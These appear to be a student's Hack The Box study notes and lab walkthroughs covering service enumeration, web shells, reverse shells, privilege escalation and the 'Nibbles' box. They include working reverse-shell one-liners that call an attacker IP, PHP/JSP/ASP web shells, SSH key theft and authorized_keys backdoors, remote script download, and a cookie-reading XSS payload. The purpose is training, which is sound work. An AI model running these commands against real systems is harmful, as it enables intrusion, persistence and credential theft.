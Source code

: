 command | xclip -selection clipboard  - copy output from a command before | to the clipboard

curl https://ifconfig.so		- public IP address :)

export <store_word>=<store>
$store_word
e.g. export target=10.129.244.89
ping $target

torify in terminal to move through tor nodes e.g. torify curl https://ifconfig.so will give you a different public IP addr

SMTP
port 25
sudo nmap 10.129.14.128 -sC -sV -p25
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v

Enumerate the SMTP service and submit the banner, including its version as the answer.
telnet $target 25

Enumerate the SMTP service even further and find the username that exists on the system
initially tried with default wait time(5s) however that was too quick of a timeout for the server to respond. Upped it to -w 20, worked.
smtp-user-enum -w 20 -U footprinting-wordlist.txt -t $target

DNS
dnsenum		-bruteforce hostnames 

Interact with the target DNS using its IP address and enumerate the FQDN of it for the "inlanefreight.htb" domain.
FQDN stands for fully qualified domain name.
export target=10.129.244.89
dig ns inlanefreight.htb @$target

Identify if its possible to perform a zone transfer and submit the TXT record as the answer. (Format: HTB{...))
dig axfr inlanefreight.htb @$target

What is the IPv4 address of the hostname DC1?
dig axfr inlanefreight.htb @$target

What is the FQDN of the host where the last octet ends with "x.x.x.203"?
Downloaded wordlists to enumerate over dns hostnames
dig axfr inlanefreight.htb @$target
dnsenum –dnsserver $target –enum -p 0 -s 0 -f /dnsenum-wordlists/fierce-hostlist.txt dev.inlanefreight.htb

NFS
Ports 111(RPC) and 2049(NFS). NFS run over RPC. 
sudo nmap 10.129.14.128 -p111,2049 -sV -sC
sudo nmap --script nfs* 10.129.14.128 -sV -p111,2049		-scan NFS service for contents
showmount -e 10.129.14.128		-show available NFS shares
mkdir target-NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
cd target-NFS		- mount NFS share
ls -l mnt/nfs/		- list contents with unames and group names
ls -n mnt/nfs/		- list contents with UIDs and GUIDs
sudo umount target-NFS		-unmount NFS share

Enumerate the NFS service and submit the contents of the flag.txt in the "nfs" share as the answer.
sudo nmap –script nfs* 10.129.19.209 -sV -p111,2049	to see where the file is located
sudo mount -t nfs 10.129.19.209:/var/nfs ./target-nfs -o nolock		- mounted the share
ls ~/target-nfs
cat flag.txt

Enumerate the NFS service and submit the contents of the flag.txt in the "nfsshare" share as the answer.
sudo nmap –script nfs* 10.129.19.209 -sV -p111,2049    to see where the file is located
sudo mount -t nfs 10.129.19.209:/mnt/nfsshare ./target-nfs -o nolock   	 - mounted the share
ls ~/target-nfs
cat flag.txt
 
SMB
smbclient -N -L //<IPADDR>		-N null session(anonymous access) -L ls server shares
rpcclient -U “” <IPADDR>		-rpcclient connect to the SMB server ability to send various requests to the SMB server such as srvinfo, enumdomains, querydominfo
nmap <IPADDR> -sC -sV -p139,445		-p139 and 445 are used by SMB
smbmap -H <IPADDR>		-enumerate SMB server

What version of the SMB server is running on the target system? Submit the entire banner as the answer.
sudo nmap 10.129.202.5 -sV -sC -p139,445

What is the name of the accessible share on the target?
smbmap -H 10.129.202.5

Connect to the discovered share and find the flag.txt file. Submit the contents as the answer.
smbclient \\10.129.202.5/sambashare
ls
cd contents
more flag.txt

Find out which domain the server belongs to.
Downloaded a tool from github enum4linux-ng, provides a lot of information about an SMB server
./enum4linux-ng.py 10.129.202.5 -A

Find additional information about the specific share we found previously and submit the customized version of that specific share as the answer.
smbmap -H 10.129.202.5
or
./enum4linux-ng.py 10.129.202.5 -A

What is the full system path of that specific share? (format: "/directory/names")
rpcclient -U “” 10.129.202.5
netshareenumall

FTP Enumeration
sudo nmap -sV -p21 -sC -A <IPADDR>	nmap scan on port 21, -sV version scan, -sC default script scan, -A aggressive scan provides more information but way more likely to be detected. 
–script ftp-anon check if the FTP server allow anonymous access, ftp-syst display status of the FTP server, including configs etc. –script-trace is used to display what commands the script send.
ways to connect to FTP:
nc -nv 10.129.14.136 21
telnet 10.129.14.136 21
openssl s_client -connect 10.129.14.136:21 -starttls ftp
Which version of the FTP server is running on the target system? Submit the entire banner as the answer.
nmap --script ftp-anon 10.129.43.135	-checks if the ftp server allow anonymous access, i.e login with user anonymous and w/e password.
The ftp server does allow anon access
ftp anonymous@10.129.43.135
password w/e
success
ls
more flag.txt
HTB{b7skjr4c76zhsds7fzhd4k3ujg7nhdjre}



ENUMERATION
cert can display multiple domains
crt.sh - find all domains tied to a company’s cert
curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq .
curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u
Shodan
dig - terminal tool to enumerate all DNS records tied to a website
grayhatwarfare.com - discover files in a specific cloud storage


PENTEST PRINCIPLES
1.     There is more than meets the eye. Consider all points of view.
2.     Distinguish between what we see and what we do not see.
3.     There are always ways to gain more information. Understand the target.


WEB REQUESTS

curl [options] [URL/IP:PORT]
curl -X [command] [URL/IP:PORT]
GET     Reads the specified entity from the database table
POST 	 Adds the specified data to the database table
PUT     Updates the data of the specified database table
DELETE     Removes the specified row from the database table
Examples:
curl http://<SERVER_IP>:<PORT>/api.php/city/london << add | jq for JSON format
curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'


curl URL - sends http request to the URL and write out the response
curl -O URL - sends http request to the URL and downloads the response

Hypertext Transport Protocol
curl http://94.237.63.93:38696/downloads.php

Javascript deobfuscation
run javascript - https://jsconsole.com/
minify code - https://javascript-minifier.com/
obfuscate code - http://beautifytools.com/javascript-obfuscator.php
more advanced obfuscation, change string array encoding to base64 - https://obfuscator.io/

beautify code - https://prettier.io/playground/ or https://beautifier.io/
deobfuscate code - https://matthewfl.com/unPacker.html

minification - place the code on the same line
obfuscate - make the code harder to understand

common encoding methods: base64, hex, rot13
Base64 - alpha-numeric characters(a-z, 0-9)
Hex - 0-9, a-f
rot13 - Caesar cypher, shift each character with a specific number, e.g. a → c (shift 2)
tool to identify encoding method - https://www.boxentriq.com/code-breaking/cipher-identifier

HTB Introduction
To connect to hackthebox, download the VPN file and run this command in terminal:
sudo openvpn file

SSH port 22
connect to vpn - sudo openvpn user.ovpn
ssh username@IP - remote connection to server
netcat/ncat/nc IP port - connect to a port

tmux - terminal mulitiplexer, can have multiple terminals on the same window
https://tmuxcheatsheet.com/
vim - text editor
https://vimsheet.com/

Nmap(Network mapper) - scanning tool, e.g. scan what ports are open on a specific IP
nmap IP
nmap -Sc IP - detailed scan
nmap -Sv IP - version scan
nmap -p PORT IP - specify port to scan
nmap -p-  IP - scan all 65535 TCP ports
nmap -sC IP - report the server headers and page title for any page hosted on the server
nmap --script <script name> -p<port> <host> - run specific nmap script
nmap -D RND IP - decoy IP RND=RANDOM IP, IP=TARGET

ftp -p IP - connect to ftp service

nc -nv IP PORT - banner grabber
nmap -sV --script=banner -pPORT IP - banner grabber

SMB(Server Message Block) - communication protocol in microsoft machines 
smbclient IP
smbclient -N -L IP 	-N suppresses the password prompt and - L specifies that we want to retrieve a list of available shares on the remote host 
smbclient -U USER IP 

gobuster is a command-line tool in terminal to DNS, vhost, and directory brute forcing
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

HTTP response codes:
200 - successful
301 - redirect
403 - forbidden 

whatweb command-line tool to extract web server version, supporting frameworks, and applications
whatweb 10.10.10.121
whatweb --no-errors 10.10.10.0/24		- iterate through the whole network

searchsploit	- command-line tool to search for public vulnerabilities/exploits for any application
searchsploit openssh 7.2
searchsploit wordpress simple backup plugin
use exploit *****

public databases of known exploits: 
https://www.exploit-db.com/
https://www.rapid7.com/db/
https://www.vulnerability-lab.com/

metasploit command-line tool for pentesting, msfconsole in terminal
Running reconnaissance scripts to enumerate remote hosts and compromised targets
Verification scripts to test the existence of a vulnerability without actually compromising the target
Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
Many post-exploitation and pivoting tools
msfconsole
search exploit eternalblue
use exploit/windows/smb/ms17_010_psexec
show options
module option RHOSTS(REMOTE HOSTS) is the IP address
check, checks if the server is vulnerable

Types of Shells
Ways to connect to compromised systems are through SSH on linux, winRM on windows or through shells. There 3 types of shells:
Reverse Shell: Connects back to our system and gives us control through reverse connection.
Bind Shell: Waits for us to connect to it and gives us control when we do.
Web Shell: Communicates through a web server, accepts our commands through HTTP parameters, executes them and prints back the output.
Shell commands: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Once we find a vulnerability to execute code on the remote host we can start a netcat listener on our machine that listen on a specific port. We can then execute a reverse shell command to connect the victim’s system’s Shell i.e Bash or Powershell to our netcat listener. 

Netcat command:
nc -lvnp <PORT>
-l: listen mode wait for a connection to us
-v: verbose mode, so we know when we receive a connection
-n: Disable DNS resolution, only connect to/from IP addresses to speed things up
-p: Port

Bind Shell: We connect to the target’s listening port.

Upgrading teletypewriter(TTY) e.g. terminal: Once connected to the target with nc we realize that the terminal lack functions such as backtracking. We need to upgrade by mapping our terminal TTY to the remote host’s TTY. 
python -c 'import pty; pty.spawn("/bin/bash")'
ctrtl+z to background our shell
stty raw -echo
fg to bring back our shell
echo $term
stty size
export TERM=xterm-256color
stty rows 67 columns 318
Once this is done the 	nc should have all a terminal’s features just like SSH.

Web Shell: Web script, e.g. PHP or ASPX that accepts our commands through HTTP request parameters such as GET or POST. E.g.:
PHP: <?php system($_REQUEST["cmd"]); ?>
JSP: <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
ASP: <% eval request("cmd") %>
Web roots for most common web servers:
Apache     /var/www/html/
Nginx     /usr/local/nginx/html/
IIS     c:\inetpub\wwwroot\
XAMPP     C:\xampp\htdocs\
E.g.: echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
curl http://SERVER_IP:PORT/shell.php?cmd=id
Web Shell runs on port 80 or 443 which makes it easier to bypass any firewall.

Privilege Escalation
Checklist to look for a way to escalate our privilege to root in Linux or admin/system in Windows. https://book.hacktricks.xyz/ or https://github.com/swisskyrepo/PayloadsAllTheThings
Scripts: Linux: https://github.com/rebootuser/LinEnum.git https://github.com/sleventyeleven/linuxprivchecker
Windows: https://github.com/GhostPack/Seatbelt https://github.com/411Hall/JAWS
Both: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/carlospolop/PEASS-ng
./linpeas.sh

sudo -l		look for commands we can run without providing a password
sudo -u user		run the sudo command as that user not root

Scheduled tasks on an operating system can be exploited by finding how they’re are maintained and add your own script to it. E.g.: common way to maintain scheduled tasks is through Cron Jobs, if we can add our own bash script to /etc/Crontab, /etc/cron.d or /var/spool/cron/crontabs/root.

dpkg -l shows what software is downloaded on the linux system

If we have read access over the .ssh directory for a specific user, we may read their private ssh keys found in /home/user/.ssh/id_rsa or /root/.ssh/id_rsa, and use it to log in to the server. If we can read the /root/.ssh/ directory and can read the id_rsa file, we can copy it to our machine and use the -i flag to log in with it:
Timmyjk@htb[/htb]$ vim id_rsa
Timmyjk@htb[/htb]$ chmod 600 id_rsa
Timmyjk@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa

If we find ourselves with write access to a users/.ssh/ directory, we can place our public key in the user's ssh directory at /home/user/.ssh/authorized_keys. This technique is usually used to gain ssh access after gaining a shell as that user. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with ssh-keygen and the -f flag to specify the output file:
Timmyjk@htb[/htb]$ ssh-keygen -f key
This will give us two files: key (which we will use with ssh -i) and key.pub, which we will copy to the remote machine. Let us copy key.pub, then on the remote machine, we will add it into /root/.ssh/authorized_keys:
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
Timmyjk@htb[/htb]$ ssh root@10.10.10.10 -i key

Assignments
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
ssh [given user]@[given ip] -p [given port number of target IP]
sudo -l
sudo -su user2
cd ~
ls
cat flag.txt

Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
cat /root/.ssh/id_rsa
copy results
cd ~
On a new cmd console on your own system
vim id_rsa
paste contents into id_rsa
chmod 600 id_rsa	needed for ssh, it won’t accept the file if it has too high privilege
ssh root@ -p -i id_rsa
ls
cat flag.txt


Transferring files
There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:
Timmyjk@htb[/htb]$ cd /tmp
Timmyjk@htb[/htb]$ python3 -m http.server 8000
Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh
or
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
Timmyjk@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:
base64 shell -w 0
Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

file <filename> to ensure file format
To ensure that nothing was interrupted during the process we can check the md5hash:
md5sum <filename>

Nibbles - Enumeration
Commands:
nmap -sV --open -oA nibbles_initial_scan <IP>
nmap -p- --open -oA nibbles_full_tcp_scan <IP>
nc -nv 1 <IP> <PORT>
nmap -sC -p <PORT/PORT, PORT> -oA nibbles_script_scan <IP>
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum <IP>

Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)
nmap -sV --open -oA nibbles_initial_scan <IP>

Nibbles - Web Footprinting
Commands:
whatweb <IP>
whatweb <IP>/<DIR>
gobuster dir -u <HTTP://IP> --wordlist /usr/share/dirb/wordlists/common.txt
curl -s http://<IP>/nibbleblog/content/private/users.xml | xmllint  --format -

Nibbles - Initial Foothold
<?php system('id'); ?>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
nc -lvnp <PORT>
python3 -c 'import pty; pty.spawn("/bin/bash")'

Nibbles - Privilege Escalation
Download LinEnum.sh
Start a Python HTTP server:
sudo python3 -m http.server 8080
On the target download the file from your server:
wget http://<your ip>:8080/LinEnum.sh
Found a writable and executable file on the target. Append a reverse shell code to the end and execute it with sudo to get a reverse shell back as the root user:
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT> >/tmp/f' | tee -a <FILE TO APPEND TO>
e.g. echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8443 >/tmp/f' | tee -a monitor.sh

Nibbles - Alternate User Method - Metasploit
Start metasploit:
msfconsole
search <application name>
use <module number>
set the rhosts i.e the target IP:
rhosts <TARGET IP>
set the lhost i.e your IP:
lhost <YOUR IP>
Type show options to see what options that need to be set for the exploit:
show options
e.g.:
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog
targeturi => nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
Type exploit to start the exploit:
exploit

https://gtfobins.github.io/

 
XSS
<img src=/ onerror=alert(document.cookie)>
<script src=//www.example.com/exploit.js></script>


Can identify what operating system a target has by pinging with ICMP and looking at the TTL of the response. Different operating systems have different TTL.
